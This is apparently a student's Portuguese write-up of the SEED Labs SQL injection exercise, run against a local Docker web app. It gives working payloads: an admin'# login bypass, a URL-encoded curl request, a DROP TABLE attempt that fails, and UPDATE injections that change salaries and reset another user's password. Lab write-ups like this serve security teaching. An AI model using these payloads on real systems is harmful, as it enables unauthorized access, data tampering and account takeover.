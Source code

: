 # SQL Injection Attack LAB

## Setup

Para começar a realizar este lab começamos por adicionar uma nova entrada nos hosts conhecidos pela máquina virtual, <b>www.seed-server.com</b>, <b>sudo nano etc/hosts</b> e adicionando <b>10.9.0.5 www.seed-server.com</b>. Depois, executamos os containers usando <b>dcbuild</b> <b<#docker-compose build</b> e <b>dcup</b> <b> #docker-compose up </b>. Por último executamos <b>mysql -u root -pdees</b> e <b>use sqllab_users</b> para executar como superuser e selecionar o schema.


## Tasks

### Task 1: Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do utilizador "Alice"

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

Obtendo estes dados:

![Alt text](image-12.png)


###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Exploramos o site <b> "www.seed-server.com" </b> disponibilizado pelo Docker, assim como o ficheiro <b>unsafe_home.php</b>. Visualizamos que a query era frágil uma vez que o servidor vai criar dinamicamente o comando com as strings não sanitizadas provenientes do input do utilizador.

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’
```
Assim, conseguimos realizar o login na conta do admin, obtendo assim todos os dados dos usuários.

![Alt text](image-13.png)

#### Task 2.2 - Login in adminstrator mode from command line

Realizamos o mesmo tipo de ataque usando um pedido GET através do comando:

```bash
curl "www.seed-server.com/unsafe_home.php?username=user&Password=pass"
```

Usando o mesmo input da tarefa anterior, mas com a codificação URL (%27 = ' e %23 = #), geramos o comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Isso deu-nos acesso ao HTML da página contendo informações pessoais dos usuários.



#### Task 2.3 - Append a new SQL statement

Adicionamos comandos SQL usando ";". Tentamos, por exemplo, excluir a tabela de credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

Mas a operação falhou devido a uma proteção na extensão MySQL usada pelo PHP do servidor, que impede múltiplas queries.

![Alt text](image-14.png)



### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Depois de logar com uma conta do sistema (por exemplo, username = Alice, password = alice1), acessamos uma página de edição de dados que é gerida a partir do ficheiro disponibilizado <b<unsafe_edit_backend.php</b>. Usamos o campo "phone number" para manipular o salário:

```sql
910123125',Salary='1111111
```

Isso resultou na execução da seguinte instrução SQL, que também alterou o salário:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125',Salary='1111111' WHERE ID=$id;
```

Assim, a variável salário foi alterada para o valor escolhido.


#### Task 3.2 - Modify other people’ salary

Para mudar o salário de outro usuário, criamos uma nova cláusula WHERE. Desta maneira, comentamos a que estava no sistema para não interferir na pesquisa.

```sql
910123125',Salary='-111' WHERE Name='Boby'#
```

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125',Salary='-111' WHERE Name='Boby'# WHERE ID=$id;
```
Alterando assim o salário do Boby.

#### Task 3.3 - Modify other people’ password

Para mudar a senha de outro usuário, ciframos a nova senha com SHA1. Por exemplo, para a senha <b>teste</b>, o hash é <b>2e6f9b0d5885b6010f9167787445617f553a735f</b>.

```sql
910123124', password='2e6f9b0d5885b6010f9167787445617f553a735f' WHERE name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125', password='2e6f9b0d5885b6010f9167787445617f553a735f' WHERE name='Boby'# WHERE ID=$id;
```

E assim conseguimos entrar com sucesso na conta do Boby.